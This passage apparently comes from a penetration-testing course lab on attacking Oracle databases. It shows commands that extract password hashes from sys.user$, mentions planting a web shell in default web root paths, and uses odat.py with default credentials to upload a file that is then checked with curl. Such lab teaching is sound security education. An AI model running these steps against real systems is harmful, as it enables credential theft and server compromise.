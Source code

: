 ```shell-session

USERNAME                       GRANTED_ROLE                   ADM DEF OS_
------------------------------ ------------------------------ --- --- ---
SYS                            DELETE_CATALOG_ROLE            YES YES NO
SYS                            EXECUTE_CATALOG_ROLE           YES YES NO
...SNIP...
```
#### Oracle RDBMS - Extract Password Hashes

```shell-session
SQL> select name, password from sys.user$;

NAME                           PASSWORD
------------------------------ ------------------------------
SYS                            FBA343E7D6C8BC9D
PUBLIC
CONNECT
RESOURCE
DBA
SYSTEM                         B5073FE1DE351687
SELECT_CATALOG_ROLE
EXECUTE_CATALOG_ROLE
DELETE_CATALOG_ROLE
OUTLN                          4A3BA55E08595C81
EXP_FULL_DATABASE

NAME                           PASSWORD
------------------------------ ------------------------------
IMP_FULL_DATABASE
LOGSTDBY_ADMINISTRATOR
...SNIP...
```

Another option is to upload a web shell to the target. However, this requires the server to run a web server, and we need to know the exact location of the root directory for the webserver. Nevertheless, if we know what type of system we are dealing with, we can try the default paths, which are:

|**OS**|**Path**|
|---|---|
|Linux|`/var/www/html`|
|Windows|`C:\inetpub\wwwroot`|

#### Oracle RDBMS - File Upload

```shell-session
0xTroj6n@htb[/htb]$ echo "Oracle File Upload Test" > testing.txt
0xTroj6n@htb[/htb]$ ./odat.py utlfile -s 10.129.204.235 -d XE -U scott -P tiger --sysdba --putFile C:\\inetpub\\wwwroot testing.txt ./testing.txt

[1] (10.129.204.235:1521): Put the ./testing.txt local file in the C:\inetpub\wwwroot folder like testing.txt on the 10.129.204.235 server                                                                                                  
[+] The ./testing.txt file was created on the C:\inetpub\wwwroot directory on the 10.129.204.235 server like the testing.txt file
```

Finally, we can test if the file upload approach worked with `curl`. Therefore, we will use a `GET http://<IP>` request, or we can visit via browser.

```shell-session
0xTroj6n@htb[/htb]$ curl -X GET http://10.129.204.235/testing.txt

Oracle File Upload Test
```